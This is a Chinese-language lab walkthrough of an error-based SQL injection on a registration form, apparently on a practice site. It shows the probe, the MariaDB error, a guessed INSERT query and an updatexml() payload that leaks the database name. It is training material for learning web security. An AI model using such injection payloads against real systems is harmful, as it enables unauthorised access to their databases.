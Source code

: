 ```
用户名: '
密码： 123
```

页面有报错信息

```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'a',md5('123'),'','','','')' at line 1
```

![image-20220131202040426](https://gitee.com/xxb667/img/raw/master/img/image-20220131202040426.png)

说明存在SQL注入漏洞

**猜测sql语句为**：

```sql
$query="insert into member(username,pw,sex,phonenum,email,address) values('$username','$password','$sex','$phonenum','$email','add')";
```

构造Payload：

- 此处最后多加一个`)`

- 闭合`value()`的`(`

- 用注释符`#`解决`value()`的 `)`

  

**下面操作都是把内容输入到用户名输入框中**



##### 爆库

**updatexml()函数：**

函数是MySQL对XML文档数据进行查询和修改的XPATH函数

格式

```
updatexml(xml_document,XPathstring,new_value)
```

- **xml_document**：fiedname是String格式，为表中的字段名
- **XPathstring**：XPathstring（Xpath格式的字符串）
- **new_value**：new_value，String格式，替换查找到的符合条件的Xpath定位必须是有效的，否则会发送错误



```sql
1' and updatexml(1,concat('~',database()),1)) #
```

![image-20220131202714557](https://gitee.com/xxb667/img/raw/master/img/image-20220131202714557.png)

得到的结果

![image-20220131202734203](https://gitee.com/xxb667/img/raw/master/img/image-20220131202734203.png)
